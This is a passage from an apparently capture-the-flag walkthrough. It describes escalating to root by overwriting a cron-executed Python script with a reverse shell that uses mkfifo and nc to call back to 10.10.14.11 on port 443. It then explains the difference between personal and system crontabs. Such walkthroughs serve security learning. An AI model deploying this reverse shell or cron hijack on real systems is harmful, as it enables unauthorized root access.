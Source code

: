 {% highlight python linenos %}
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f")
{% endhighlight %}

Since this file seems to be regularly executed with `root` permissions and since we have permissions to edit it, we could place the python code above into the file to obtain a shell as `root`. This code simply uses the `os` module to execute the reverse shell payload which was used earlier to obtain the initial shell as the `sun` user. To overwrite the `script.py` file with this content, we execute the command below in the `/home/sun/Documents` folder.

{% highlight bash linenos %}
echo 'import os\nos.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f")' > script.py
{% endhighlight %}

![rootShell](/assets/{{ imgDir }}/rootShell.png)

Then, we start a netcat listener by executing `nc -lvnp 443` and wait for our malicious python script to execute. After at most 5 minutes, we get a connection and obtain a root shell as can be seen in the image above.

# Extra - Finding the Cronjob
When enumerating the target as the `sun` user, it wasn't possible to find any cronjob which was configured to execute the `script.py` script on a regular basis as the `root` user. To understand why, we need to understand that there are two types of crontabs. The first is the system wide crontab which corresponds to the file `/etc/crontab`. This file contains one cronjob per line and includes a column which defines with which user's permissions each cronjob should execute. The second type is personal crontabs. Personal crontabs are normally stored in `/var/spool/crontabs/[username]` where `username` corresponds to the username which the personal crontab belongs to. A personal crontab can only be accessed by its corresponding user and always executes with the permissions of the corresponding user.

![extra1](/assets/{{ imgDir }}/extra1.png)

Once we have a root shell, we can find the personal cronjobs of the `root` user by executing the command `crontab -l` as shown above. The `grep -v '#'` part of the command is only used to omit comments from the output. The `crontab -l` command shows the personal crontab of the `root` user which is stored in the file `/var/spool/crontabs/root` and can only be accessed by the `root` user. As can be seen in the output of the command, the `script.py` script is executed every 5 minutes. In conclusion, the `sun` user could not possibly have found this cronjob since it was located in the `root` user's personal crontab which only the `root` user is permitted to access.


